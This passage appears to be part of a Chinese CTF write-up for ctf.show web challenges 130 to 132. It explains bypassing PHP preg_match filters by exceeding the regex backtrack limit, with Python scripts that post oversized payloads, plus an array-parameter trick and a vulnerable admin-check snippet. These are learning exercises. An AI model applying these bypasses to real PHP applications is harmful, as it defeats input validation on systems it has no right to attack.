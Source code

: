 知识点：利用正则最大回溯次数绕过

PHP 为了防止正则表达式的拒绝服务攻击（reDOS），给 pcre 设定了一个回溯次数上限 pcre.backtrack_limit
回溯次数上限默认是 100 万。如果回溯次数超过了 100 万，preg_match 将不再返回非 1 和 0，而是 false。这样我们就可以绕过第一个正则表达式了。

```python
import requests
url="http://f6736092-7d96-46c5-bfb7-a31f636efae9.chall.ctf.show:8080/"
data={
   'f':'very'*250000+'ctfshow'
}
r=requests.post(url,data=data)
print(r.text)
```

非预期解

```
利用数组 f[]=ctfshow
```



## web131

同web130

```python
import requests
url="http://8715c060-efb8-4525-a41e-7fe820b209d8.chall.ctf.show:8080/"
data={
	'f':'very'*250000+'36Dctfshow'
}
r=requests.post(url,data=data)
print(r.text)
```



## web132

扫描后台目录，存在/admin

或者访问/robots.txt,之后访问/admin

```php
<?
include("flag.php");
highlight_file(__FILE__);


if(isset($_GET['username']) && isset($_GET['password']) && isset($_GET['code'])){
    $username = (String)$_GET['username'];
    $password = (String)$_GET['password'];
    $code = (String)$_GET['code'];

    if($code === mt_rand(1,0x36D) && $password === $flag || $username ==="admin"){
        
        if($code == 'admin'){
            echo $flag;
        }
        
    }
}
```
